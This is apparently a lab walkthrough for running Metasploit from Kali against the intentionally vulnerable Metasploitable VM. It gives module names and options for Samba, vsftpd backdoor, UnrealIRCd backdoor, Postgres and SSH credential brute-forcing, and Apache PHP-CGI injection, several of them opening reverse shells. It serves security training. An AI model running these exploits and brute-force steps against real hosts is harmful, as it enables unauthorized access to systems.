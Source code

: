 ## Metasploit on the Linux Metasploitable2 

Here are several labs on running Metasploit from Kali on a Metasploitable3 Linux VM. Please make sure when you execute these labs you verify that home environment setup is working properly and you are able to scan the Metasploitable 3 Linux host from Kali using NMAP. Typically when you find the Metasploitable3 system it will have 5 or more open ports. This walkthrough is intended to get your familiar with the Metasploit tool and the options required to successfully execute the exploit.

## Samba

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search samba`

2. Next run the use command with the exploit based on your search. If multiple exploits are found with that specific exploit name you may need to run each one seperately.

Example: `use exploit/multi/samba/usermap_script`

3. Next use the `show options` command to show the options required to execute the exploit

In this example the required options for samba are the following

RHOSTS = IP Address of host you are attacking `xxx.xxx.xxx.xxx`

RPORT = Port you are attacking which is port = `445`

LRPORT = port your reverse shell will run on = `4444`

4. Finally to run the exploit you can use the `run` or `exploit` command to execute it.


## VSFTP

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search vsftp`

2. Next run the use command with the exploit based on your search. If multiple exploits are found with that specific exploit name you may need to run each one seperately.

Example: `use exploit/unix/ftp/vsftpd_234_backdoor`

3. Next use the `show options` command to show the options required to execute the exploit

In this example the required options for vsftp are the following

RHOSTS = IP Address of host you are attacking `xxx.xxx.xxx.xxx`

RPORT = Port you are attacking which is port = `21`

Payload = In this example we used the following payload = `set payload cmd/unix/interact`

4. Finally to run the exploit you can use the `run` or `exploit` command to execute it.

## Postgres

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search postgres`

2. Now lets use the auxiliary scanner for postgres

`use auxiliary/scanner/postgres/postgres_login`

`set rhosts xxx.xxx.xxx.xxx`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`

4. Set the required options

`set user_as_pass true`

`set username postgres`

`run` or `exploit`

5. The exploit was successful so you can now login to the system as the username and password with the same credentials by using the folloing sytax

`psql -h xxx.xxx.xxx.xxx -U postgres -W`

## Unreal IRC

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search unreal`

2. Now lets use the unreal exploit

`use exploit/unix/irc/unreal_ircd_3281_backdoor`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`

4. Set the required options

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 6697` (Port number IRC app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse`

`run` or `exploit`

##  SSH

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

2. Now lets use the auxiliary smb exploit

`use auxiliary/scanner/ssh/ssh_login`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`



4. Set the required options

`set rhosts xxx.xxx.xxx.xxx`

`set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt`

`run` or `exploit`

5. Try another password file by using the set USERPASS_FILE command.s

`set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt`

`run` or `exploit`

## Apache 2.2.8

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search apache`

2. Since we have so many Apache exploits lets use an Auxlilary scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_listing`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`run`

3. Since that was successful lets use an Auxlilary directory scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_scanner`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

4. Since that was successful lets use an Auxlilary file scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/files_dir`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

5. Since that was successful lets use the verbose authorization bypass to search for any potential exploits we can use.

`use auxiliary/scanner/http/verb_auth_bypass`

`show options`

`set rhosts xxx.xxx.xxx.xxx`

`run`

6. Since that was unsuccessful lets use the php_cgi injection exploit to search for any potential exploits we can use.

`use exploit/multi/http/php_cgi_arg_injection`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`set lhost xxx.xxx.xxx.xxx`

`set lport 4444`

`run` or `exploit`
